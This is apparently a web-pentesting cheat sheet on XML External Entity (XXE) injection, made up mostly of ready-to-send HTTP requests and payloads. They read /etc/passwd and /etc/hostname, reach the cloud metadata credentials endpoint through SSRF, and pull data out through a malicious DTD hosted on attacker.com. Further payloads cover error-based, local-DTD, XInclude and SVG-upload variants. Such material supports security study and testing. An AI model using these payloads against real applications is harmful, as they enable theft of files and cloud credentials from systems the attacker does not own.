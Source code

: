 # 🟢 XML External Entity (XXE) Injection

## <mark style="color:red;">Intro</mark>

The XML document type definition (DTD) contains declarations that can define the structure of an XML document. The DTD is declared within the optional DOCTYPE element at the start of the XML document.

XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD.

Allows an attacker to interfere with an application's processing of XML data.

#### <mark style="color:red;">**Examples**</mark>

* Custom entities to be defined within the DTD\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`myentity`</mark>` ``"`<mark style="color:yellow;">`my entity value`</mark>`" > ]>`&#x20;
* XML external entities\
  uses the "SYSTEM" keyword and must specify a URL\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`http://normal-website.com`</mark>`" > ]>`\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`file:///path/to/file`</mark>`" > ]>`&#x20;

## <mark style="color:red;">Types of XXE attacks</mark>

### <mark style="color:orange;">Exploiting XXE to retrieve files</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

### <mark style="color:orange;">Exploiting XXE to perform SSRF attacks</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/admin/security-credentials"> ]><MainTag><VulTag>&ssrf;</VulTag></MainTag>
```

### <mark style="color:orange;">Blind XXE vulnerabilities</mark>

Does not return the values of any defined external entities within its responses.

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client)

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> ]>]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client) + XML parameter entity

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> %xxe; ]>
```

Use the FTP protocol instead of HTTP, it will be possible to exfiltrate data containing newline character

### <mark style="color:orange;">Exploiting blind XXE exfiltrate data out-of-band</mark>

* Attacker create a malicious DTD on his server (malicious.dtd) like:

```
// "malicious.dtd" File

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

* Attacker must submit the following XXE payload to the vulnerable application:

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]> 
```

* Use the FTP protocol instead of HTTP, it will be possible to exfiltrate data containing newline characters

## <mark style="color:red;">Exploiting blind XXE to retrieve data via error messages</mark>

<mark style="color:green;">**First method**</mark>

* Attacker create a malicious DTD on his server (malicious.dtd) like:

```
// "malicious.dtd" File

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

* Attacker must submit the following XXE payload to the vulnerable application:

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]> 
```

<mark style="color:green;">**Second method**</mark>

* Retrieve data via repurposing a local DTD

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM 
&#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]> 
```



## <mark style="color:red;">Finding hidden attack surface for XXE injection</mark>

### <mark style="color:orange;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document like: backend SOAP service.

"XInclude" is a part of the XML specification that allows an XML document to be built from sub-documents.

```
// Edit HTTP request with "BurpSuit Proxy"
POST /product/stock HTTP/1.1
Host: web-security-academy.net
...
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> &storeId=1
```

### <mark style="color:orange;">XXE attacks via file upload</mark>

If uploaded files which are then processed server-side, it can be vulnerable. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

Create a SVG image with this payload and upload it. The result will be on the image.

<pre><code><strong>&#x3C;?xml version="1.0" standalone="yes"?>&#x3C;!DOCTYPE test [ &#x3C;!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>&#x3C;svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&#x3C;text font-size="16" x="0" y="16">&#x26;xxe;&#x3C;/text>&#x3C;/svg>
</strong></code></pre>

### <mark style="color:orange;">XXE attacks via modified content type</mark>

You might be able submit the following request, with the same result.

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

Server parses the body content as XML, then you can reach the hidden XXE attack surface
